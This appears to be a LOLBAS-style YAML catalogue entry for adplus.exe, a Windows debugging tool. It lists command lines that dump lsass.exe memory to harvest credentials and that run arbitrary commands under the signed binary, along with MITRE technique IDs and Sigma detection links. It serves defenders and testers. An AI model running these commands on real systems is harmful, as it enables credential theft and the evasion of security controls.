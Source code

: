 ```yaml
---
Name: adplus.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-09-01
Commands:
  - Command: adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
    Description: Creates a memory dump of the lsass process
    Usecase: Create memory dump and parse it offline
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -c config-adplus.xml
    Description: Execute arbitrary commands using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All Windows
    Tags:
      - Execute: CMD
  - Command: adplus.exe -c config-adplus.xml
    Description: Dump process memory using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -crash -o "C:\temp\" -sc calc.exe
    Description: Execute arbitrary commands and binaries from the context of adplus. Note that providing an output directory via '-o' is required.
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All windows
    Tags:
      - Execute: CMD
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\adplus.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\adplus.exe
Code_Sample:
  - Code: https://gist.github.com/nasbench/e34ca2cd90e3a845a558a102a4f607da
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_adplus.yml
  - IOC: As a Windows SDK binary, execution on a system may be suspicious
Resources:
  - Link: https://mrd0x.com/adplus-debugging-tool-lsass-dump/
  - Link: https://twitter.com/nas_bench/status/1534916659676422152
  - Link: https://twitter.com/nas_bench/status/1534915321856917506
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

